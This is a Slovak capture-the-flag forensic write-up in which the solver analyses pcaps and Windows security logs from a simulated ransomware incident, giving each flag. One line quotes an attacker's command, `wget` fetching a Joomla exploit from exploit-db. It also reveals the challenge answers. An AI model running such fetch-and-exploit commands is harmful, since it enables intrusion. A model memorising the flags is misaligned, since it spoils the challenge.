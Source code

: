 # SK-CERT - DÁTOVÁ ANALÝZA
> Ozvala sa nám spoločnosť, ktorá dostala hlásenie že majú infikovaný počítač ransomvérom. Ten je špecifický tým že posiela vygenerovaný privátny klúč na útočníkov server. Prikladáme vám pcap: https://drive.google.com/file/d/13arhVaKNFD_g2qCjuDBrECmpN6MKd4Rw/view?usp=sharing <br/>
Reported Difficulty: 1


## 1 Kontrola
> Z dodaného PCAP súboru je potrebné zistiť či naozaj je spoločnosť infikovaná, a pokiaľ áno, tak je potrebné zistiť o aký privátny klúč sa odosiela. Vlajka je IP adresa serveru na ktorý sa klúč odoslal.

> Body: 3

Otvorime `part1.pcap` vo Wireshark a pustime sa do analyzi. Musim uznat ze som to isiel skratkou a skusal rozne IPecky z komunikacie kym som nenatrafil na tu pravu: `194.182.66.53`

```
flag: 194.182.66.53
```

## 2 Windows?
> Zdrojová IP počítača ktorý odosielal privátny klúč, patrí lokálnemu počítaču s windows. Je potrebné zistiť ako prenikli do tohto systému. Prikladáme bezpečnostný log v XML formáte.
https://drive.google.com/file/d/1pmJNCfgnpTCMewCaRioqagYj0_VLcold/view?usp=sharing
Vlajka je dátum a čas prvého prieniku (Formát Y-m-d H:i:s)

> Body: 3

V tomto kroku mame securty log v xml, otvorime ho v LibreOffice Calc a pozrieme sa na rozne eventy co tam mame. Zo poctu roznych logov vidime vysoky vyskit 4625 co je Failed Login.

![](images/2022-03-06-12-36-54.png)

Ked si vyfiltrujeme vsetky 4625 eventy vidime ze vsetky maju FailureReason `%%2313` co je `Unknown user name or bad password. (529)`, targetuser je `victim` a zdrojom je `LinuxServerWebServer`. Vyzera to na bruteforce login ktory, ako predpokladame ze bol bol enty point, nas flag by mal byt prvy successfull login attempt po poslednom failed:

![](images/2022-03-06-12-55-59.png)

```
flag: 2022-02-22 20:40:08
```

## 3 Ktorý proces?
> Po bruteforce útoku a prihlásení, útočník spustil malvér. Je potrebné zistiť meno procesu. Vlajka je meno procesu (Formát: meno_procesu.format)

> Body: 3

V LibreOffice vyfiltrujeme vsetky eventy s ProcessName a NewProcessName a hladame nieco podozrive po case prveho successfull loginu utocnika a o chvilku to mame:

![](images/2022-03-06-13-10-07.png)

```
flag: YouWillCryRansomware3000.exe
```

## 4 Otvorený test
> Kompromitovaný LinuxServerWebServer je náše testovacie prostredie, aplikácie na serveri sú dostupné iba z lokálnej siete, ale telnet server je otvorený do sveta. Prikladáme Pcap s potrebnými dátami. https://drive.google.com/file/d/1y3pOvG9PDGf7Sg7HtgOGvfjpk6qlVYor/view?usp=sharing
Vlajka je EpochTime prieniku do systému (bez milisekúnd).

> Body: 3

Po otvoreni `web.pcap` suboru, poobzerame sa trosku okolo a uvidime ze sa niekdo snazi prihlasit cez telnet session:

![](images/2022-03-06-15-43-26.png)

Skusime hladat "Login" v paketoch s cielom najst prvy success login, a po niekolko desiatok klikoch narazame na "Last Login" message ktora sa objavuje po uspesnom prihlaseni sa.

![](images/2022-03-06-15-48-16.png)

Pre istotu pojdeme este zopar paketov vyssie aby sme sa uistili ze to bol utocnik ktory uhadol login a heslo. Po prezreti zopar desiatok paketov predtym vidime ze utocnik uhadol login `bob` a heslo `adminbob` a paket cislo `6262` mozeme povazovat ako okamih preiniku do systemu ktory ma EpochTime (bez milisekund)

![](images/2022-03-06-15-53-52.png)

```
flag: 1645560004
```

## 5 Stará joomla
> Z logov sme zistili že útočník vyhackoval aj našu joomlu na testovacom serveri. Z posledného PCAP súboru je potrebné zistiť aký exploit útočník použil.
Vlajka je url odkial útočník exploit stiahol (Formát: www.stránka_exploitu.doména/cesta_k_exploitu)

> Body: 3

Pri pozerani zopar dalsich paketov, vidime ze utocnik prve co spravil je `wget https://www.exploit-db.com/download/47465`, rychly nahlad do toho url nam potvrdzuje ze ide o Joomla expoit.

![](images/2022-03-06-16-16-09.png)

```
flag: www.exploit-db.com/download/47465
```



